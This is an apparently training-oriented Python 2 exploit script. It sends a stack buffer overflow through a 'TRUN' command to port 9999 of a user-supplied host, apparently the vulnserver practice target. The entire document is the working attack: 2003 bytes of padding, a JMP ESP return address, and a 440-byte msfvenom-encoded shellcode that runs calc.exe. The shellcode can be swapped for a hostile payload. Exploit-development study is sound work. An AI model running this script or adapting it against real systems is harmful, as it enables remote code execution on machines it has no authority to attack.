 ```python
import socket
import sys
import struct

# msfvenom -p windows/exec CMD=calc.exe -b "\x00" -f py -e x86/alpha_mixed BufferRegister=ESP
# Payload size: 440 bytes

buf =  b""
buf += b"\x54\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30"
buf += b"\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42"
buf += b"\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49"
buf += b"\x79\x6c\x6d\x38\x4e\x62\x43\x30\x55\x50\x33\x30\x53"
buf += b"\x50\x4f\x79\x79\x75\x35\x61\x79\x50\x45\x34\x4e\x6b"
buf += b"\x62\x70\x66\x50\x4c\x4b\x62\x72\x74\x4c\x6c\x4b\x76"
buf += b"\x32\x46\x74\x4e\x6b\x62\x52\x65\x78\x76\x6f\x4c\x77"
buf += b"\x53\x7a\x55\x76\x66\x51\x59\x6f\x6c\x6c\x55\x6c\x30"
buf += b"\x61\x73\x4c\x35\x52\x34\x6c\x51\x30\x69\x51\x7a\x6f"
buf += b"\x34\x4d\x66\x61\x59\x57\x4d\x32\x79\x62\x71\x42\x32"
buf += b"\x77\x6e\x6b\x32\x72\x52\x30\x4c\x4b\x50\x4a\x57\x4c"
buf += b"\x6e\x6b\x30\x4c\x57\x61\x74\x38\x49\x73\x67\x38\x73"
buf += b"\x31\x7a\x71\x32\x71\x6c\x4b\x62\x79\x65\x70\x46\x61"
buf += b"\x79\x43\x6c\x4b\x37\x39\x64\x58\x7a\x43\x75\x6a\x71"
buf += b"\x59\x4c\x4b\x46\x54\x6e\x6b\x67\x71\x59\x46\x46\x51"
buf += b"\x49\x6f\x4e\x4c\x59\x51\x78\x4f\x44\x4d\x46\x61\x79"
buf += b"\x57\x34\x78\x59\x70\x71\x65\x68\x76\x63\x33\x31\x6d"
buf += b"\x68\x78\x45\x6b\x63\x4d\x74\x64\x32\x55\x6a\x44\x31"
buf += b"\x48\x4c\x4b\x36\x38\x64\x64\x67\x71\x69\x43\x30\x66"
buf += b"\x4c\x4b\x56\x6c\x42\x6b\x4e\x6b\x61\x48\x35\x4c\x67"
buf += b"\x71\x78\x53\x4c\x4b\x67\x74\x6e\x6b\x57\x71\x4e\x30"
buf += b"\x4f\x79\x32\x64\x47\x54\x46\x44\x63\x6b\x63\x6b\x75"
buf += b"\x31\x72\x79\x33\x6a\x76\x31\x69\x6f\x4d\x30\x61\x4f"
buf += b"\x73\x6f\x51\x4a\x6e\x6b\x55\x42\x6a\x4b\x4c\x4d\x63"
buf += b"\x6d\x33\x5a\x67\x71\x6c\x4d\x6e\x65\x6c\x72\x65\x50"
buf += b"\x43\x30\x65\x50\x62\x70\x72\x48\x56\x51\x4e\x6b\x30"
buf += b"\x6f\x6d\x57\x4b\x4f\x4e\x35\x6f\x4b\x4c\x30\x4f\x45"
buf += b"\x49\x32\x71\x46\x33\x58\x69\x36\x6d\x45\x4f\x4d\x4d"
buf += b"\x4d\x49\x6f\x39\x45\x67\x4c\x46\x66\x31\x6c\x65\x5a"
buf += b"\x4f\x70\x49\x6b\x39\x70\x73\x45\x64\x45\x4f\x4b\x30"
buf += b"\x47\x45\x43\x72\x52\x30\x6f\x70\x6a\x75\x50\x72\x73"
buf += b"\x39\x6f\x58\x55\x65\x33\x71\x71\x52\x4c\x42\x43\x56"
buf += b"\x4e\x70\x65\x53\x48\x30\x65\x63\x30\x41\x41"

host = sys.argv[1]

jmpesp = struct.pack("<I", 0x625011AF)
buffer = "A" * 2003 + jmpesp + buf + "\xff" * 3000

z = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

z.connect((host, 9999))

print "[*] Sending Payload!"

z.send("TRUN /.:/%s\r\n" %buffer)

z.close()
```
